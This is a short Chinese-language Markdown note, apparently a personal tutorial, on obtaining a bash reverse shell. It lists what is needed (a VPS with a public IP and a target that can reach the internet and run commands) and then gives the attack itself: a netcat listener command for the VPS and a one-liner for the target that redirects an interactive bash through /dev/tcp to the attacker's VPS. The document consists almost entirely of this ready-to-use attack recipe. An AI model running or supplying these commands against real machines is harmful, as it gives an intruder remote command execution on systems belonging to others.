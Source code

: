 # Requirements
首先要有一台拥有公网`ip`的机子，比如说一台`vps`，
其次靶机需要可以访问外网，且可以执行命令

# vps上的工作
用`ssh`连接上`vps`，然后使用`netcat`监听端口
```shell
nc -lvvp <port>
```

# 靶机上的工作
## 利用bash反弹shell
创建一个新的`bash`进程，重定向输入输出到`vps`
```shell
bash -c "bash -i >& /dev/tcp/<vps_ip>/<vps_listen_port> 0>&1"
```

#Web #反弹shell 